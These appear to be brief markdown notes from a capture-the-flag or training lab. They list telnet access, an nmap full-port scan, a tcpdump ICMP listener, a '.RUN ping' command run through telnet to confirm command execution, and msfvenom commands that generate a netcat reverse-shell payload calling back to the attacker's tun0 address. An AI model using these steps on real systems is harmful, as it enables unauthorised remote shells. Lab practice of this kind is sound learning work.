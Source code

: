```bash
telnet <IP> <port>
```

for all ports
```bash
nmap -p- <ip>
```

`tcpdump` listener
```bash
sudo tcpdump ip proto \\icmp -i tun0
```

inside telnet
sent 1 ping message
```
.RUN ping <my-local-ip> -c 1
```

generating reverse shell

```bash
msfvenom -p cmd/unix/reverse_netcat lhost=[local tun0 ip] lport=4444 R

msfvenom -p cmd/unix/reverse_netcat lhost=[ tun1 ip] lport=4444 R
```